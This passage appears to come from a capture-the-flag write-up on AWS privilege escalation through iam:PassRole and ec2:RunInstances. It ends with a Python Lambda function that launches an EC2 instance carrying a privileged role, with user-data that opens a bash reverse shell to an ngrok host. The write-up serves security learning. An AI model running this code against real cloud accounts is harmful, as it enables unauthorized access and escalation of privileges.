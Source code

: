 Our current permissions now correspond to technique 3 [here](https://bishopfox.com/blog/privilege-escalation-in-aws), involving the `iam:PassRole and ec2:RunInstances` permissions. Essentially, we could pass in an `--iam-instance-profile` to assign a role to the EC2 instance.

But in order to gain access to our newfound privileges we would need a way to gain access to our newly created EC2 instance. In this article, the authors leveraged the assigning of SSH key pairs and gained access through the public IP address of the EC2 instance.

> * The user needs to have some way to SSH into the newly created instance.
>   * In the example below, the user assigns a public SSH key stored in AWS to the instance and the user has access to the matching private key.

In this challenge, however, this method does not seem quite so feasible (in particular, I had a hard time figuring out how to get the public IP of the instance since we only had access to `run-instances` but _not_ `describe-instances`).&#x20;

It turned out there was a way to do this by using idempotency tokens, which allowed us to get updated information on the result of a previous command. As this was not my solution, I won't discuss it in detail.

> Idempotency ensures that an API request completes no more than one time. With an idempotent request, if the original request completes successfully, any subsequent retries complete successfully without performing any further actions. However, the result might contain updated information, such as the current creation status.

After a bit more googling, I came across this [blog post](https://s3cur3.it/home/practicing-aws-security-with-iamvulnerable-part-2) containing a similar scenario as the one we have here. It turns out that the [`user-data`](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html) option can be used to execute a script on startup. This is meant to help perform common configuration and setup tasks when provisioning an EC2 instance.

Piecing it all together, we can modify our previous lambda function to spawn an EC2 instance that runs a reverse shell on startup.

```python
import json
import boto3
import base64

def lambda_handler(event, context):
  client = boto3.client('ec2')
  response = client.run_instances(
    ImageId='ami-0b89f7b3f054b957e',
    SubnetId='subnet-0aa6ecdf900166741',
    TagSpecifications=[
        {
            'ResourceType': 'instance',
            'Tags': [
                {
                    'Key': 'agent',
                    'Value': 'user-17416bc58b3f40aa95a139bffdac450a'
                },
            ]
        },
    ],
    MaxCount=1,
    MinCount=1,
    IamInstanceProfile={
        'Arn': 'arn:aws:iam::051751498533:instance-profile/ec2_agent_instance_profile'
    },
    UserData=base64.b64encode(b'#!/bin/bash\n\n/bin/bash -l > /dev/tcp/4.tcp.ngrok.io/18673 0<&1 2>&1\n').decode('utf-8')
  )
  return json.loads(json.dumps(response, default=str))
```
